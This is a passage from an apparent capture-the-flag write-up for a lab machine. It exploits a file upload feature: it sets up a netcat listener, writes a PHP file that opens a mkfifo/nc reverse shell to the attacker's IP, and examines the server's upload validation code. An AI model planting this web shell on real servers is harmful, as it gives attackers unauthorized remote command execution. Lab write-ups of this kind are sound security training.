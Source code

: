 ![](/assets/images/networked5.png)

We see a new picture which has a name containing our IP address but with the periods replaced with underscores. Another thing to note is that the extensions were maintained as well.

Since we can upload files onto the server, lets try to upload a `.php` file which will establish a reverse connection by to our listener!

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

`reverseconn.php`:
{% highlight php%}
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.XXX.XXX 1337 >/tmp/f');
?>
{% endhighlight %}

![](/assets/images/networked6.png)

Looks like our file got rejected :( Since we already have the source code for `upload.php`, lets check it out.

The first to look at is this:
{% highlight php %}
$myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

{% endhighlight %}
